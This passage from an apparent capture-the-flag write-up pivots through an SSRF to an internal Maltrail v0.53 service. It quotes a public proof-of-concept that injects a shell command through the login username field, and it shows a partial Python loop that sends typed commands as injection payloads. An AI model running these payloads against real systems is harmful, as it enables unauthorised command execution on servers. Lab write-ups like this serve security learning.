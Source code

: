 After that modification, I'll try running it again, using the `forward_url` to the target's localhost port 80:

![ssrf success 1](ssrf%20success%201.png)

Excellent! port 80 has an index page with title *Maltrail*. I wonder what it is. I'll check it out in the browser:

![ssrf success 2](ssrf%20success%202.png)



### Port 80 (filtered)

Looks like styles maybe didn't load, but that's definitely a different website! :clap: Most importantly, we see that it is a service called **Maltrail (v0.53)**. The links at the top of the page all point to [the Maltrail github repo](https://github.com/stamparm/maltrail). Since this is http, it's probably a good idea to try directory enumeration:

![ssrf directory enum](ssrf%20directory%20enum.png)

Interesting results. The `/ping` and `/whoami` pages are especially interesting. 

- `/whoami` doesn't seem to do anything right now (with empty request headers etc.);

-  `/ping` replies with a single word `pong`

- `/` is as shown in the screenshot above

- `/index` reveals a login page, shown in the screenshot below.

  ![maltrail login](maltrail%20login.png)

  

### Command Injection via SSRF

After enumeration, I checked searchsploit to see if there is exploit code for Maltrail: there is not. However, some quick web searching yielded a result: I found this page describing a *critical* (10/10) vulnerability applicable to this version of Maltrail:

![maltrail cve](maltrail%20cve.png)

That article provides the following PoC:

```
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```

The script will need to be modified to perform POST requests to the login (index) endpoints instead of GET requests to localhost:80.

```python
...
def commandInjection(cmd):
    target_url = f'{args.target}/{args.basket}/index'
    command = f';{cmd}' # Later, url-encode this or maybe b64 it
    payload = {
        "username": command
    }
    response = s.post(target_url, data=payload, timeout=2.50)
    print(f'[{response.status_code}] {response.text}')

postTarget()
while True:
    try:
        cmd = input("> ")
        commandInjection(cmd)
    except (requests.exceptions.ReadTimeout,
```